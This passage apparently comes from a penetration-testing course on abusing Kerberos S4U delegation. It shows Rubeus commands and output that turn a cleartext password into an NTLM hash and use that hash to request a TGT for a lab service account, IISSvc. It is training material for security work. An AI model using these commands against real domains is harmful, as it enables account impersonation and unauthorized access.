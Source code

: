 We'll once again turn to Rubeus, which includes S4U extension support.

_Kekeo_[4](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5485-4) by Mimikatz author Benjamin Delphy also provides access to S4U extension abuse.

Note that we do not need to execute in the context of the _IISSvc_ account in order to exploit the account. We only need the password hash. However, if we only have the clear text password, we can use the hash command in Rubeus to generate the NTLM hash as shown below:

```
PS C:\Tools> .\Rubeus.exe hash /password:lab
...

[*] Action: Calculate Password Hash(es)

[*] Input password             : lab
[*]       rc4_hmac             : 2892D26CDF84D7A70E2EB3B9F05C425E

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!
```

> Listing 29 - Generating NTLM hash from password

Next, we'll use Rubeus to generate a TGT for _IISSvc_ with the asktgt command by supplying the username (/user), domain (/domain), and NTLM hash (/rc4):

```
PS C:\Tools> .\Rubeus.exe asktgt /user:iissvc /domain:prod.corp1.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E
...

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 2892D26CDF84D7A70E2EB3B9F05C425E
[*] Building AS-REQ (w/ preauth) for: 'prod.corp1.com\iissvc'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIE+jCCBPagAwIBBaEDAgEWooIECzCCBAdhggQDMIID/6A...

  ServiceName           :  krbtgt/prod.corp1.com
  ServiceRealm          :  PROD.CORP1.COM
  UserName              :  iissvc
  UserRealm             :  PROD.CORP1.COM
  StartTime             :  4/14/2020 7:48:16 AM
  EndTime               :  4/14/2020 5:48:16 PM
  RenewTill             :  4/21/2020 7:48:16 AM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  rc4_hmac
  Base64(key)           :  LfbSfF81qk+oMed+zvLoZg==
```

> Listing 30 - Requesting TGT for IISSvc
